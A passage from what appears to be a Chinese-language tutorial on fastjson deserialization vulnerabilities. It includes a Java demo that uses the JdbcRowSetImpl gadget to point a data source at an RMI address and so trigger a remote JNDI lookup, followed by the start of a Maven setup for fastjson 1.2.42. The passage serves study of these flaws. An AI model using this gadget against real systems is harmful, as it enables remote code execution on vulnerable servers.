 我们可以通过一个简单的小`demo`快速了解：

```bash
package org.example;
import com.sun.rowset.JdbcRowSetImpl;

public class Main {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl JdbcRowSetImpl_inc = new JdbcRowSetImpl();
        JdbcRowSetImpl_inc.setDataSourceName("rmi://127.0.0.1:1099/ift2ty");
        JdbcRowSetImpl_inc.setAutoCommit(true);
    }
}
```

[![](assets/1706233003-50acd973b2d776f061e8afcac12fdbaa.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240124170522-b4684c72-ba97-1.jpeg)  
所以之前的两种`poc`可以直接自定义`uri`利用成功。

## 3\. fastjson 1.2.42 反序列化漏洞

首先先下载`fastjson 1.2.25`：

```bash
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>fastjson_1_2_42</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
```